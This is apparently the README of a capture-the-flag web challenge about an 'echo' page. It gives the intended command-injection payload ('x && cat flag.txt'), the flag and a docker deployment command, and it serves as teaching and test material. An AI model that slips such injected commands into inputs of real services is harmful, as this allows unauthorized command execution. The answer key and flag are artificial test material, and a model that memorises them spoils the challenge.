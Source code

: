 ### (WEB) Tier-1
Just made a sweet webpage! It basically echoes whatever you input. Super cool, and 100% secure!

### Answer
Simple command injection  --> "x && cat flag.txt"

### Flag
CTF{l0l-1nj3ct10n}

### Deployment
```bash
# Substitute podman if desired
docker compose up -d
```
